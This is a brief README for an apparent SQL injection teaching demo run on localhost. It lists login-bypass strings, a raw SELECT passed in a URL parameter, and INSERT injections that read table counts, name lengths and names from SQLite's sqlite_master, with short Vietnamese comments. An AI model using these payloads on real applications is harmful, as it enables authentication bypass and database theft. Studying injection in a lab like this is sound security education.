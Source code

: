 # sql-injections-demo
Try these, some basic login field injections.
username: 'or' 1=1
password: 'or' 1=1

username: 1' 1=1 --
password: anything

For get all data

http://localhost:3000/page?id=SELECT%20*%20FROM%20data

INSERT INEJCTION 
name: test', 'test1')-- -
description: anything

// Dem so luong database
test', (SELECT count(tbl_name) FROM sqlite_master))-- -

// Lay do dai database
test', (SELECT length(tbl_name) FROM sqlite_master))-- -

test', (SELECT tbl_name FROM sqlite_master)-- -